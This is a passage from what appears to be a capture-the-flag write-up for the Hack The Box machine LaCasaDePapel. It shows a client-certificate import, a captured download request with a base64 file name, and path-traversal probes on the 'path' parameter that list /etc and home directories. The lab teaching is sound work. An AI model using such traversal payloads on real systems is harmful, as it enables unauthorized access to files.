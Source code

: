 ![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%209.png)

Now click import and upload the .p12 cert to Your Certificates:

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%2010.png)

Now visit the https page again:

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%2011.png)

We can click on the seasons and click a file to download. Capture the request with burp:

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%2012.png)

```bash
GET /file/U0VBU09OLTIvMDUuYXZp HTTP/1.1
Host: 10.10.10.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.10.10.131/?path=SEASON-2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

We also realise the encoding used for the file is just base64:

```bash
echo 'U0VBU09OLTIvMDUuYXZp' | base64 -d
SEASON-2/05.avi
```

In the URL we see a path parameter; let’s see if it’s vulnerable to LFI:

```bash
https://10.10.10.131/?path=/etc/
```

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%2013.png)

Looks like it’s using scandir in the backend. 

```bash
https://10.10.10.131?path=../../../../../home
```

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%2014.png)
